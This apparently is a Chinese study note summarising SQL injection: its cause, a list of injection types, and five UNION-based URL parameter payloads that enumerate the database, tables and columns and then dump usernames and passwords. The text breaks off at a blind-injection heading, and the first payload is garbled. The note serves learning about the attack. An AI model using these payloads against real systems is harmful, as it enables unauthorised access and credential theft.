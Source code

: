 ```yaml
---
title: sql注入总结
date: 2025-04-02 19:11:45
tags: sql注入
categories: 学习笔记
---
```


### 原理

sql注入发生原理：

用户对传入的参数未进行严格过滤处理，导致构造形成sql语句，直接输入数据库执行，从而获取和修改数据库



#### 注入类型

常见的注入方式有：字符型注入、布尔型注入、报错注入、文件读写注入、布尔盲注、时间盲注、堆叠注入、二次注入......

### 基本操作

**1.判断显示位**

```
?id=SELECT first name, last_name FROM users WHERE user_id = '1' union select 1,2,3#;
```

**2.爆数据库的名字**

```
?id = '1' union select 1,user(),database()--+‘；
```

**3.爆数据库中的表**

```
?id = '-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+';
```

**4.爆表中的字段**

```
?id= '-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+'，
```

 **5.爆相应字段的所有数据**

```
?id = '-1' union select 1,2,group_concat(user,password) from users--+';
```



### 盲注脚本

#### 布尔盲注
